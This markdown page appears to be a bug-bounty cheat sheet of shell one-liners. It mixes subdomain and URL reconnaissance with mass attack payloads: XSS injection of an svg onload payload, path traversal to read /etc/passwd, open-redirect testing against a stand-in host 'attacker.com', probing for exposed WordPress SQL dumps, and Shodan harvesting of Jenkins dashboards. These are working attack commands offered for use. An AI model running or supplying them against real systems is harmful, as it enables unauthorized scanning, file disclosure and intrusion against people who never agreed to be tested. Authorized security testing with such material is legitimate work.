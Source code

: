 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


### Mass XSS via wayback machine<br>
+ ``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+ ``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


### Mass IPs listing Via Shodan<br>
+ ```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


### Subdomain from crt.sh<br>
+ ```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

### wordpress mysql <br>
+ ```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

### Get all urls from sitemap
+ ``curl -s https://target.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'``

### Waybackurls Validators
+ ``waybackurls http://bugcrowd.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort``

### Extract all endpoints from js file
+ ``cat files.txt | grep -aoP "(?<=(\"|\'|`))\/[a-zA-Z0-9?&=\/-#.](?=(\"|\'|`))" | sort -u | tee output.txt``

### OneLiner  http://rapiddns.io Curl for Doamin Recon :
+ ``curl -s "https://rapiddns.io/subdomain/target.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | cut -d '/' -f3  | sed 's/?t=cname//g' | sed 's/#result//g' | sed 's/\.$//' | sort -u``

### Check Mass CNAME records
+ ``cat live-domains.txt | while read domains;do dig $domains;done | grep CNAME``

### Mass LFI
+ ``cat hosts | httpx -path ///////../../../etc/passwd -mc 200 -match-string 'root:x:'``

### Open Redirect
+ ``export LHOST="attacker.com"; gau target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'``

### Find JavaScript Files
+ ``assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done``

### Get Subdomain from https://riddler.io
+ ``curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain domain from web archive
+ ``curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
``
### Get subdomain from certspotter
+ ``curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain from securitytrails
+ ``curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u``

